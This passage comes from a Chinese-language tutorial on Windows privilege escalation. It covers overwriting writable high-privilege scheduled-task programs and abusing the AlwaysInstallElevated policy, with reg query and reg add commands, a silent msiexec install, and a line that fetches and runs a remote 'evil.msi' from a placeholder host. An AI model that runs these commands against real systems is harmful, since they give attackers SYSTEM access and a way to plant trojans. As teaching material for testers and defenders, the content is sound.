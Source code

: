 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>accesschk64.exe -dqv "/path/to/dir"<br>``` |

如果攻击者对某个高权限的计划任务所在的路径有可写权限，可使用恶意程序覆盖原来的程序，当计划任务下次执行时，就会以高权限运行恶意程序。

## [](#4-alwaysinstallelevated-%E6%8F%90%E6%9D%83)4 AlwaysInstallElevated 提权

注册表键 AlwaysInstallElevated 是一个策略设置项，Window 允许低权限用户以 System 权限运行 MSI 安装文件，如果启用此策略设置项，那么任何权限的用户都能以 `NT AUTHORITY\SYSTEM` 权限来运行恶意的 MSI 文件

### [](#41-%E6%9F%A5%E8%AF%A2)4.1 查询

查询：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

未启用 AlwaysInstallElevated 策略，返回结果为：「找不到指定的注册表项或值」

### [](#42-%E5%BC%80%E5%90%AF)4.2 开启

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1<br>reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1<br>``` |

### [](#43-%E6%89%A7%E8%A1%8C-msi-%E6%96%87%E4%BB%B6)4.3 执行 MSI 文件

本地执行：`msiexec /q /i C:\msi.msi`

-   /i 参数用来表示安装操作
    
-   /q 参数用来隐藏安装界面
    

并且 MSIEXEC 也可以实现无落地文件的方式进行木马上线的方式，当然低权限用不了，因为 msi 文件需要可信的证书才能远程利用 AlwaysInstallElevated 提权：`msiexec /q /i http://ip/evil.msi`
